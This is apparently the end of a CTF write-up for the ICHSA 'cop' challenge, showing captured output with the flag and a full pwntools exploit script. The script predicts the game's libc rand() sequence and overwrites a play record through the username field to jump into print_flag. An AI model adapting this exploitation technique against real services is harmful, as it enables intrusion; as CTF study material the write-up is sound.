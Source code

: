```python
[+] Opening connection to cop.ichsa.ctf.today on port 8011: Done
[+] Receiving all data: Done (151B)
[*] Closed connection to cop.ichsa.ctf.today port 8011
b'| Computer chosed: 1\n| You chosed: 1\n| It is a tie\n| Point goes to: no one\n| The flag is:ICHSA_CTF{exploitation_with_cop_is_why_better_than_any_crime}\n'
```

## Full script

```python
from pwn import *
context.binary = 'game'
from ctypes import CDLL
clib = CDLL('libc.so.6')
clib.srand(0)
ARRAY_OF_PLAYS_MAXSIZE = 170
array_of_plays = [clib.rand()%3 for _ in range(ARRAY_OF_PLAYS_MAXSIZE)]
current_play = 0

r = remote('cop.ichsa.ctf.today', 8011)
def choose(opt: int):
    r.recvuntil('[ ]\b\b')
    r.sendline(str(opt))
def win_round():
    global current_play
    choose(2)
    r.recvuntil('[ ]\b\b')
    cpu_play = array_of_plays[current_play]
    current_play += 1
    user_play = {0:1, 1:2, 2:0}[cpu_play]+1
    r.sendline(str(user_play))
def skip(n: int):
    choose(3)
    r.recvuntil('[  ]\b\b\b')
    r.sendline(str(n))
for i in range(5): win_round()

OFFSET_TO_NAME = 0xd018
SIZEOF_PLAY = 24
while current_play < OFFSET_TO_NAME//SIZEOF_PLAY:
    toskip = min([255, (OFFSET_TO_NAME-current_play*SIZEOF_PLAY)//SIZEOF_PLAY+1])
    current_play += toskip
    skip(toskip)

choose(5) # change username
r.recvuntil('new username: ')
fakeplay = p32(1) + b'a'*10 + pack(context.binary.symbols['print_flag']+0x66) + pack(1)
r.sendline(b'a'*(current_play*SIZEOF_PLAY-OFFSET_TO_NAME)+fakeplay)
choose(4) # enable ascii art
choose(2) # win
r.recvuntil('[ ]\b\b')
r.sendline('1')
print(r.recvall())
```

